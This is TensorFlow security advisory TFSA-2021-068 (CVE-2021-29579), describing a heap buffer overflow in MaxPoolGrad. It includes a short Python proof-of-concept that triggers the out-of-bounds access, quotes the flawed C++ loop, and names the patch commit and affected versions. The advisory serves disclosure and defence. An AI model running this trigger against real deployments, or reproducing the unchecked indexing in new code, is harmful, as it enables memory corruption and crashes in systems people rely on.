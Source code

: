 ## TFSA-2021-068: Heap buffer overflow in `MaxPoolGrad`

### CVE Number
CVE-2021-29579

### Impact
The implementation of `tf.raw_ops.MaxPoolGrad` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
  strides=strides, padding=padding, explicit_paddings=[])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ab1e644b48c82cb71493f4362b4dd38f4577a1cf/tensorflow/core/kernels/maxpooling_op.cc#L194-L203)
fails to validate that indices used to access elements of input/output arrays
are valid:

```cc
for (int index = out_start; index < out_end; ++index) {
  int input_backprop_index = out_arg_max_flat(index);
  FastBoundsCheck(input_backprop_index - in_start, in_end - in_start);
  input_backprop_flat(input_backprop_index) += out_backprop_flat(index);
}
```

Whereas accesses to `input_backprop_flat` are guarded by `FastBoundsCheck`, the
indexing in `out_backprop_flat` can result in OOB access.

### Patches
We have patched the issue in GitHub commit
[a74768f8e4efbda4def9f16ee7e13cf3922ac5f7](https://github.com/tensorflow/tensorflow/commit/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
